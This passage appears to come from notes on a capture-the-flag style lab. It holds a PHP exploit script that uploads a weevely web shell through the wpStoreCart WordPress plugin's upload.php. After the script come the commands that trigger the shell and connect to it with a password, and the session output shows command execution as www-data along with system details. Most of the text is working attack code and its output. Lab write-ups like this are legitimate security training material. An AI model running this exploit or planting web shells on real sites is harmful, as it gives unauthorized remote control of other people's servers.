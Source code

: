 `vim ./wpstorecart_exploit.php`:
```php
<?php

$uploadfile="/home/kali/weevely_shell.php";
$ch =
curl_init("https://f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com/wp-content/plugins/wpstorecart/php/upload.php");
curl_setopt($ch, CURLOPT_POST, true);
curl_setopt($ch, CURLOPT_POSTFIELDS,
         array('Filedata'=>curl_file_create($uploadfile)));
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$postResult = curl_exec($ch);
curl_close($ch);
print "$postResult";

?>
```

`php -f ./wpstorecart_exploit.php`

`curl https://f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com/wp-content/uploads/wpstorecart/weevely_shell.php`

`weevely https://f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com/wp-content/uploads/wpstorecart/weevely_shell.php 'password123'`:
```
[+] weevely 4.0.1

[+] Target:     f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com
[+] Session:    /home/kali/.weevely/sessions/f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com/weevely_shell_0.session

[+] Browse the filesystem or execute commands starts the connection
[+] to the target. Type :help for more information.

weevely> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)🚩
```
```
www-data@attackdefense.com:/app/wp-content/uploads/wpstorecart $ :system_info
+--------------------+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| document_root      | /var/www/html |
| pwd                | /app/wp-content/uploads/wpstorecart |
| script_folder      | /app/wp-content/uploads/wpstorecart |
| script             | /wp-content/uploads/wpstorecart/weevely_shell.php |
| php_self           | /wp-content/uploads/wpstorecart/weevely_shell.php |
| whoami             | www-data |
| hostname           | attackdefense.com |
| open_basedir       |
|
| disable_functions  | pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority, |
| safe_mode          | False |
| uname              | Linux attackdefense.com 6.8.0-40-generic #40-Ubuntu SMP PREEMPT_DYNAMIC Fri Jul  5 10:34:03 UTC 2024 x86_64 |
| os                 | Linux x86_64 |
| client_ip          | 10.1.0. 2|
| server_name        | f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com |
| max_execution_time | 30 |
| php_version        | 5.5.9-1ubuntu4.25 |
```